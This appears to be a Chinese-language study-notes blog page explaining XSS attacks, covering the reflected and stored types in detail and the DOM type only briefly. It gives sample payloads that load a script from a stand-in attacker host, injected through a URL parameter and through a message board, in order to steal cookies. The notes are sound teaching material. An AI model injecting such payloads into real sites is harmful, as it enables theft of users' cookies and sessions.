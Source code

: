 ```yaml
---
title: 网络攻击
date: 2022/09/29
categories:
 - [计算机网络]
tags:
 - 计算机网络
sticky: false
description: "简要介绍一些网络攻击"
---
```


## XSS跨站脚本攻击

### 攻击方式

攻击后攻击者可以获取页面的数据，如DOM、cookie、localStorage；
DOS攻击，发送合理请求，占用服务器资源，从而使用户无法访问服务器；
破坏页面结构；
流量劫持（将链接指向某网站）；

#### 反射型（非持久型）

原理：攻击者通过在 URL 插入恶意代码，其他用户访问该恶意链接时，服务端在 URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

攻击步骤：

1. 通过 URL 插入恶意代码。
2. ⽤户打开⽬标⽹站时，⽹站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器
3. 只要用户访问被注入恶意脚本的页面时，混在其中的恶意代码也被执⾏。
4. 恶意代码窃取⽤户数据并发送到攻击者的⽹站，或者冒充⽤户的⾏为，调⽤⽬标⽹站接⼝执⾏攻击者指定的操作。

例子：攻击者诱导被害者打开链接 `XXXX?name=<script src="http://a.com/attack.js"/>`。被攻击网站服务器收到请求后，未经处理直接将 URL 的 name 字段直接拼接至前端模板中，并返回数据。被害者在不知情的情况下，执行了攻击者注入的脚本（可以通过这个获取对方的 Cookie 等）。

#### 存储型（持久型）

原理：攻击者将注入型脚本提交至被攻击网站数据库中，当其他用户浏览器请求数据时，注入脚本从服务器返回并执行。

攻击步骤：

与反射型一致,区别在于第一步是该恶意代码存储在数据库中,而反射型是在URL中

例子：
攻击者在目标网站留言板中提交了`<script src="http://a.com/attack.js"/>`。目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过 innerHTML 渲染到页面中。其他用户在访问该留言板时，会自动执行攻击者注入脚本。

#### DOM型

原理：攻击者通过在 URL 插入恶意代码，客户端脚本取出 URL 中的恶意代码并执行。

攻击步骤：

与前两者类似,区别在于前两者执行恶意代码是在服务端完成,属于服务端漏洞,而DOM型是前端JS自身安全漏洞,在前端完成
